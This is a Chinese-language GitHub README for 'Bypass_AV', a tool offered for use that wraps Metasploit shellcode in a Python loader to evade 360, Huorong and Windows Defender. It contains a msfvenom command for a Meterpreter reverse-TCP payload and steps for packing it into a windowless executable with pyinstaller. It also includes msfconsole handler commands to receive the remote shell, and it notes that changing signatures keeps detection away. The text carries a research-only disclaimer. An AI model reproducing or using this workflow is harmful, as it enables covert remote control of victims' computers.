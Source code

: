 # Bypass_AV
Bypass_AV msf免杀，ShellCode免杀加载器 ，免杀shellcode执行程序 ，360&amp;火绒&amp;Window Defender

代码够简单，估计要不了多久就进特征库了，被杀了再去改几个特征码照样又可以免杀，保持更新。

## 声明

#### 该项目仅供网络安全研究使用，禁止使用该项目进行违法操作，否则自行承担后果，请各位遵守《中华人民共和国网络安全法》！！！


代码未经过大量测试，如发现问题请提交 issue。

## 环境
2022年5月8日 测试可以免杀国内杀软 火绒&360及Window Defender

Windows 10 64位   360&火绒&Window Defender

Windows 7 64位  或以上操作系统应该都没问题（没有测试）


## 使用msfvenom

生成ShellCode


```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.100 lport=8080 --encrypt base64 -f c
```

注意：ShellCode 需要是64位的

![image-20220508135022087](https://user-images.githubusercontent.com/34683107/167286509-b134001a-e463-495c-ab6b-78933050b14f.png)
## 加载器

将生成的ShellCode 填至 Bypass_AV.py 里的 ShellCode = '''**ShellCode**''' 处

注意：保留原始ShellCode 里的双引号 "

示例：

![image-20220508134821387](https://user-images.githubusercontent.com/34683107/167286553-0367af02-f64d-4e28-8b01-3080ae98c13f.png)


最终格式：

![image-20220508135655093](https://user-images.githubusercontent.com/34683107/167286556-9b847ebb-0408-43f6-836c-3ac7fac46788.png)



## 打包成可执行程序
编译

Python  3.8.6

pyinstaller 4.7

```
pip install pyinstaller 
pyinstaller -F -w Bypss_AV.py
```

生成Bypass_AV.exe在dist目录中



## 运行监听

```
msfconsole
msf6 > use exploit/multi/handler 
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
msf6 exploit(multi/handler) > set lport 8080
msf6 exploit(multi/handler) > run
```



### Bypass_360


https://user-images.githubusercontent.com/34683107/167286823-a93fdd69-547e-4adc-9ae5-171fb0e919ca.mov


### Bypass_火绒

https://user-images.githubusercontent.com/34683107/167286897-a482c486-c3e9-4f69-ae55-98afd2ff1ed7.mov


### Bypass_Window Defender

https://user-images.githubusercontent.com/34683107/167286874-9413611e-c2be-4cfb-ba51-f95ebe5518af.mov


感谢阅读

![Axx8](https://user-images.githubusercontent.com/34683107/167286522-4a5fb52c-f975-4ca1-ba6d-6333fd9ff046.jpg)
